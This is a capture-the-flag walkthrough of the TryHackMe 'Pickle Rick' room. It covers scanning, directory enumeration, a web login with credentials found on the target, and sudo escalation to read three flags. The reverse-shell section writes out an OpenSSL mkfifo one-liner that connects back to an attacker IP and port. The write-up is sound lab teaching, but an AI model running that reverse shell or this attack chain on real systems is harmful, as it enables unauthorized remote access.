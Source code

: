 # Pickle Rick<!-- omit in toc -->

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

## Table of Content<!-- omit in toc -->

- [1. Nmap Scan](#1-nmap-scan)
- [2. Website](#2-website)
- [3. gobuster \& dirbuster](#3-gobuster--dirbuster)
- [4. Web login](#4-web-login)
- [5. Reverse Shell access](#5-reverse-shell-access)
- [6. First Flag](#6-first-flag)
- [7. Second Flag](#7-second-flag)
- [8. Third Flag](#8-third-flag)


---

## Tools Used:<!-- omit in toc -->

- Kali Linux
- NMAP
- gobuster
- dirbuster
- ncat


---

### 1. Nmap Scan

We'll scan the IP to see what services are running, first, let's visit the website.

![](img/picklerick01.png)

<br>

### 2. Website 

After visiting the website, we can't see anything that gives out any clues or ingridient.

After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

![](img/picklerick02.png)

After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

![](img/picklerick03.png)

<br>

### 3. gobuster & dirbuster

I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.
 
![](img/picklerick04.png)

The `robots.txt` file has a wierd text, i'll save it for later maybe: 

![](img/picklerick05.png)

After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

![](img/picklerick06.png)

<br>

### 4. Web login

We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

![](img/picklerick07.png)

And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

![](img/picklerick08.png)

<br>

### 5. Reverse Shell access

Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

![](img/picklerick09.png)

As we can see we've got access to the machine:

![](img/picklerick10.png)

<br>

### 6. First Flag

We can see that there is a .txt file, if we cat that we can see the first flag:

![](img/picklerick11.png)

<br>

### 7. Second Flag

After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

![](img/picklerick12.png)

<br>

### 8. Third Flag

Since we have a reverse shell access, let's try `sudo -l` to see if we have permissions on something:

![](img/picklerick13.png)

As we can see, we've got permissions on all commands without password.

So let's use sudo to see the contents of user root home folder, and we can see the third flag:

![](img/picklerick14.png)